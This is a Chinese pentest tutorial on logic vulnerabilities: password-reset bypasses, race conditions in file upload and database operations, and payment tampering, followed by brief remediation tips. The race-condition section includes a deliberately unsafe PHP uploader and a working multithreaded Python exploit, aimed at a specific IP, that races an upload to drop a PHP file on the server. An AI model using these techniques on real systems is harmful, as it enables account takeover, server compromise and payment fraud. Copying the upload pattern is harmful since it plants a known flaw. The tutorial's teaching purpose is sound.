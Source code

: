 ```yaml
---
draft: false
date: 2016-07-31 18:43:49
title: 逻辑漏洞
description: 
categories:
  - Pentest
tags:
  - 逻辑漏洞
---
```


### 0x00 逻辑漏洞
逻辑漏洞是一种业务逻辑上的设计缺陷，业务流存在问题。
这里说一下密码找回漏洞、多线程条件竞争漏洞和支付漏洞。

### 0x01 密码找回漏洞
* 测试流程
    * 先尝试正确的密码找回流程，记录不同找回方式的所有数据包
    * 分析数据包，找到有效数据部分
    * 推测数据构造方法
    * 构造数据包验证猜测

* 分类
    * 邮箱找回
    ```
    一般是点击邮件中的链接后会转跳到修改密码的页面，需要分析链接的token构造，可以考虑是时间戳md5、用户名或邮箱和随机字符串md5等，一般是类似如下链接：
    http://domain/findpwd.php?u=xiaoming&token=MTIzQHFxLmNvbQ==
    http://domain/findpwd.php?id=374&token=2ad64bf14c714dbce88c7993663da7da
    当构造相应链接时就可以重置任意用户的密码
    ```

    * 手机短信找回
    ```
    短信找回一般就是4位或6位验证码，暴力猜测吧
    ```

    * 找回逻辑错误
    ```
    若恶意用户A用15123333333找回密码，此时收到验证码但不使用
    此时恶意用户A再用受害者B的手机号找回密码
    用户A在B的验证表单填入自己收到的验证码，发送
    此时跳转的修改密码页面修改的就是用户B的密码
    ```

    * 直接修改密码
    ```
    在修改密码时跳过选择找回方式，直接访问修改密码的页面进行修改
    ```
    
    * 本地验证
    ```
    随意输入一个验证码，开Burp抓包，forward，抓返回包，返回包里可能有一个flag字段，
    若flag的值为1则跳转到修改密码页面，所以只要修改返回包即可
    ```

    * 服务端将验证码返回给浏览器
    ```
    在点击获取验证码时，服务器会将验证码发送给浏览器，抓包即可
    ```

    * 验证码直接出现在url中
    ```
    当点击获取验证码时发出的请求链接中直接有code
    ```
    
    * 密保问题找回
    ```
    回答密保问题，有时一些答案就在html源码里
    ```

### 0x02 多线程条件竞争漏洞
多线程条件竞争漏洞是一种服务端的漏洞，服务端是并发处理用户请求的，若并发处理不当或相关操作逻辑设计有缺陷时就会产生一些安全问题。

* 文件上传

服务端可以sudo apt-get install inotify-tools安装监听文件的软件，执行inotifywait -m /var/www/html/admin监听admin文件夹中文件的变化
```php
//uploads.php代码如下，仅供测试：
<meta charset='utf-8'>
<?php
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";

    $filename = $_FILES['myfile']['name'];

    if (is_uploaded_file($_FILES['myfile']['tmp_name'])){
        if (!move_uploaded_file($_FILES['myfile']['tmp_name'],$path.$filename)){
            die("error:can not move!");
        }
    } else {
        die("error:not an upload file！");
    }

    echo "file upload success.file path is: ".$path.$newfile."\n<br />";

    if ($_FILES['myfile']['error']>0){
        unlink($path.$newfile);
        die("Upload file error: ");
    }

    $ext = array_pop(explode(".",$_FILES['myfile']['name']));
    if (!in_array($ext,$allowtype)){
        unlink($path.$newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
?>
```

* 简单利用代码如下：

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import threading
import time

"""
200个线程上传文件aa.php，同时200个线程同时请求aa.php，aa.php中内容为
<?php fputs(fopen("info.php","w"),"<?php phpinfo(); ?>") ?>，
只要aa.php被请求成功就会生成内容为<?php phpinfo(); ?>的php文件info.php
"""

is_exit = False

def create_info():
    global is_exit
    while not is_exit:
        url = "http://123.206.78.220/uploads/aa.php"
        resp = requests.get(url)

def put_file():
    global is_exit
    file = {'myfile':('aa.php',open('C:/Users/Administrator/Desktop/aa.php'),'application/octet-stream')}
    upload_url = "http://123.206.78.220/uploads.php"
    while  not is_exit:
        requests.post(upload_url,files=file)

def check_info():
    global is_exit
    print "start threading check info.php:"
    url = "http://123.206.78.220/uploads/info.php"
    while True:
        print "check info.php..."
        resp = requests.get(url)
        if resp.status_code == 200:
            is_exit = True
            print "create file info.php success."
            break

for x in xrange(1,200):
    t = threading.Thread(target=create_info)
    t.setDaemon(True)
    t.start()
    print "start create_into threading %d" % x

for x in xrange(1,200):
    t = threading.Thread(target=put_file)
    t.setDaemon(True)
    t.start()
    print "start put_file threading %d" % x


t = threading.Thread(target=check_info)
t.setDaemon(True)
t.start()
try:
    while t.isAlive():
        pass
    time.sleep(1)
except KeyboardInterrupt:
    print 'stopped by keyboard'
 ```

* 数据库操作

在数据库进行update、delete等操作时使用多线程请求，可在一次update时间内完成多次update，和上面的文件上传其实是一个原理

### 0x03 支付漏洞
```
攻击者通过修改交易金额、交易数量等从而利用漏洞，
如Burp修改交易金额、使交易数量为负数或无限大等。

* 在支付时直接修改数据包中的支付金额，实现小金额购买大金额商品
* 修改购买数量，使之为负数，可购买负数量商品，从而扣除负积分，即增加积分，
  或使购买数量无限大，无限大时则程序可能处理出错，从而实现0金额支付
* 请求重放，在购买成功后重放请求，可实现"一次购买对此收货"
```

### 0x04 漏洞修复
* 对于密码重置漏洞，可以使用复杂的token，使之不可被预测
* 对于密码重置漏洞，校验refer，不使用本地校验等
* 对于多线程竞争漏洞，文件移动一定在一切判断之后，对于数据库则可以设置锁
* 对于支付漏洞，主要就是签名了，或者https
